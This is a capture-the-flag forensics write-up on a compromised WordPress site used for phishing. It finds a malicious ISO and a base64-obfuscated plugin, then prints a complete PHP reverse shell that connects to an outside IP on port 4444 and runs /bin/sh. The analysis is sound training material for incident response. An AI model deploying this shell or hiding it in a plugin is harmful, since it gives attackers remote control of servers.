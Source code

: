 # Fake News
## Description
The Magic Informer is our school's newspaper. Our system administrator and teacher, Nick, maintain it. But according to him, his credentials leaked while sharing his screen to present on a course. It is believed that Dark Pointy Hats got access to the Magic Informer, which they use to host their phishing campaign for freshmen people. Given the root folder of the Magic Informer, can you investigate what happened?
## Files
There was a zip given for this challenge which I put in the repo in case you want to download.

## Solve

Unzipping the file given we have an html directory for a word press website. Looking through the code, `wp-blogs` stands out since there's only one blog and there's a lot of obfuscated scripts in the file. So I tries to host the website to see if it will give me anything useful. I used the docker-compose file below: 

```yaml
## from https://www.hostinger.com/tutorials/run-docker-wordpress
version: "3" 
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./html:/var/www/html"]
volumes:
  mysql: {}
```

This hosted my website so it was easier to look through. I went to `http://localhost:8000/wp-blogs/2022/11/` which proceeded to download a file called `official_invitation.iso`.

Running file on this we get 
```bash
$ file official_invitation.iso 
official_invitation.iso: ISO 9660 CD-ROM filesystem data ''
```
So I tried to mount the iso image to see what what in it. 

```bash
sudo mkdir tmp
sudo mount -o loop official_invitation.iso ./tmp
ls tmp
```
which gives a Windows executable. I tried to run it with `wine` on linux but ran into issues. The next best thing was `strings`, so I strings the `official_invitation.exe` file and looking through the output we get some part of the flag. Specifically we get this: `part2:_1t_w4s_t00_g00d_t0_b3_tru3}`

This suggest that there is another part to the flag which probably should have been founded first. Anyhow I decide to look through the code more. `wp-content/themes` has some pretty interesting stories to it but I couldn't find anything. I then accidentally opened the plugins folder and the content of `/plugins/plugin-manager/plugin-manager.php` was interesting. It was some base64 encoded text so I put that into cyberchef and I got 

```js
set_time_limit (0);
$VERSION = "1.0";
$ip = '77.74.198.52';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$part1 = "HTB{C0m3_0n";
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
```

That gives us the first part of the flag `HTB{C0m3_0n`. 

## Flag 
`HTB{C0m3_0n_1t_w4s_t00_g00d_t0_b3_tru3}`